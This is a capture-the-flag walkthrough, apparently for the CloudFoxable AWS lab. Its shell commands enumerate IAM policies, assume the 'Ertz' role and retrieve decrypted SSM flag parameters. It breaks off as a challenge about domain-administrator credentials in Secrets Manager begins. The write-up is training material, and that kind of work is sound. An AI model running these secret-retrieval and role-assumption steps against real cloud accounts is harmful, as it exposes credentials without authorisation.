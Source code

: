 With `cloudfox`, the following commands solve the challenge &rarr;

```bash
cloudfox aws secrets -p cloudfoxable # lists where it stored analysis and loot
bat ~/.cloudfox/cloudfox-output/aws/<ACCID>-cloudfoxable/table/secrets.txt # list accessible secrets
bat ~/.cloudfox/cloudfox-output/aws/<ACCID>-cloudfoxable/loot/pull-secrets-commands.txt # list commands
awsn --profile cloudfoxable --region us-west-2 ssm get-parameter --with-decryption --name /cloudfox/flag/its-a-secret
```

Without `cloudfox`, generic analysis can be done as follows &rarr;

```bash
awsn iam list-attached-user-policies --user-name ctf-starting-user --profile cloudfoxable
awsn iam get-policy --policy-arn "arn:aws:iam::<ACCID>:policy/its-a-secret-policy" --profile cloudfoxable
awsn iam get-policy-version --version-id v1 --policy-arn "arn:aws:iam::<ACCID>:policy/its-a-secret-policy" --profile cloudfoxable
awsn --region us-west-2 ssm get-parameter --with-decryption --name /cloudfox/flag/its-a-secret --profile cloudfoxable
```

## It's another secret

The challenge asks us to assume the role `Ertz`, which can be setup with the following command &rarr;

```bash
cat <<EOF >> ~/.aws/config
[profile ertz]
region = us-west-2
role_arn = arn:aws:iam::<ACCID>:role/Ertz
source_profile = cloudfoxable
EOF
```

The `ctf-starting-user` had the *SecurityAudit* policy attached, so it can be used for analysis. That provides insight that `Ertz` would be able to retrieve the SSM parameter in concern to get the flag &rarr;

```bash
awsn iam list-attached-role-policies --role-name Ertz --profile cloudfoxable
awsn iam get-policy --policy-arn "arn:aws:iam::<ACCID>:policy/its-another-secret-policy" --profile cloudfoxable
awsn iam get-policy-version --version-id v1 --policy-arn "arn:aws:iam::<ACCID>:policy/its-another-secret-policy" --profile cloudfoxable
awsn --region us-west-2 ssm get-parameter --with-decryption --name /cloudfox/flag/its-another-secret --profile ertz
```

## Backwards

This challenge requires us to know that the ARN of interest is `arn:aws:secretsmanager:us-west-2:<ACCID>:secret:DomainAdministratorCredentials-SUFFIX`.
